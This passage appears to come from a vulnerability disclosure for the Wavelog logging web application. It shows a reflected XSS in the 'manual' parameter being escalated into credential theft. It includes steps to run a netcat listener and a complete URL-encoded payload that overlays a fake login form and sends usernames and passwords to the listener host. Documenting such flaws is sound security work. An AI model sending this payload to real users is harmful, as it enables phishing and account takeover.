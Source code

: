 So far this is just a self XSS, but we can use this concept to steal the credentials of authenticated users using the web application.

<div style="page-break-after: always;"></div>

## Credential stealing via UI Redressing
1. Start a listener on an attack host (i.e. netcat)<br>
<div align=center><figure><img src="https://github.com/user-attachments/assets/c12941d0-65d7-4abd-b372-78bd7340dff8" alt="Netcat Listener" style="max-width: 100%; height: auto;"><br><figcaption><strong><em>Netcat Listener</em></strong></figcaption></figure></div><br>

2. Send the following payload to the victim user.

<pre style="white-space: pre-wrap;background: #f9f9f9;padding: 1em;border: 1px solid #ddd;border-radius: 4px;">https://demo.wavelog.org/qso?manual=%3Cdiv%20style%3D%22position%3Aabsolute%3Btop%3A0%3Bleft%3A0%3Bwidth%3A100%25%3Bheight%3A100%25%3Bbackground%3Ablack%3Bcolor%3Awhite%3Bz%2Dindex%3A1%22%3E%3Ch1%3EWelcome%20to%20the%20Demo%20of%20Wavelog%3C%2Fh1%3E%3Cp%3EThis%20demo%20will%20be%20reset%20every%20night%20at%200200z%2E%3Cbr%3EMore%20Information%20about%20Wavelog%20on%20Github%2E%3C%2Fp%3E%3Cform%20method%3D%22GET%22%20action%3D%22http%3A%2F%2Flocalhost%3A1111%2F%22%3E%3Cstrong%3EUsername%3C%2Fstrong%3E%3Cinput%20type%3D%22text%22%20name%3D%22user%5Fname%22%3E%3Cbr%3E%3Cstrong%3EPassword%3C%2Fstrong%3E%3Cinput%20type%3D%22password%22%20name%3D%22user%5Fpassword%22%3E%3Cbr%3E%3Cbr%3E%3Cinput%20type%3D%22checkbox%22%3E%3Csmall%3EKeep%20me%20logged%20in%3C%2Fsmall%3E%3Cbr%3E%3Cbutton%20class%3D%22w%2D100%20btn%20btn%2Dprimary%22%20type%3D%22submit%22%3ELogin%20%E2%86%92%3C%2Fbutton%3E%3C%2Fform%3E%3C%2Fdiv%3E</pre><br>

When the victim visits the URL, it will present a fake login page.
<div align=center><figure><img src="https://github.com/user-attachments/assets/7a9f5bda-a6eb-48e7-9c70-f0e403245196" alt="XSS UI Redressing" style="width: 100%; max-width: 100%; height: auto;"><figcaption><strong><em>XSS UI Redressing</em></strong></figcaption></figure></div><br>

<div style="page-break-after: always;"></div>

Once the credentials is entered and the login button is clicked, the listener on the attack host will capture the credentials.
<div align=center><figure><img src="https://github.com/user-attachments/assets/2d4eee4e-cd8b-4bdc-96b1-25a1ccee9318" alt="Stolen Credentials" style="width: 100%; max-width: 100%; height: auto;"><figcaption><strong><em>Stolen Credentials</em></strong></figcaption></figure></div>


